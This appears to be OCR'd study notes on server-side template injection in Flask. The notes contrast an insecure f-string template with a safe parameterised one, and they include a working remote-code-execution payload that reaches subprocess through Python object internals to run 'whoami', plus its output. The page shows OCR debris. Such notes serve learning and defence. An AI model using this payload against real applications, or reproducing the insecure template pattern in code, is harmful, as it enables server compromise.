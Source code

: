      		    process file handels which in this case is the web app and back to us
     		    since this is the job of the webserver interacting with the flask code

		    stdout can be set to either a subprocess.PIPE (look at refrences)/file
		    
     # .communicate() ---> is the primary call that reads all the process's inputs and
                           outputs. without it the payload respons will only return the 
                           object memory address location instead of the errors\output...


===> the payload response is 
     Welcome to the profile of (b'jake', None)!
















       Remediation :
----------------------------

# Insecure: Concatenating input
template = f"<h1>Welcome to the profile of {user}!</h1>"
return render_template_string(template)

# Secure: Passing input as data
template = "<h1>Welcome to the profile of {{ user }}!</h1>"
return render_template_string(template, user=user)

  1st Payload :
=================
/profile/{7*7}

Both snippets produce the same output for the given payload. However, snippet 2 is considered more secure because it uses double curly braces {{ }} around the user variable in the template.

This helps to prevent potential template injection attacks by escaping any potentially malicious code. a

In snippet 1, if the user variable was controlled by a malicious user, they could potentially inject malicious code into the template. Therefore, snippet 2 is the safer option.





  2nd Payload :
=================
/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
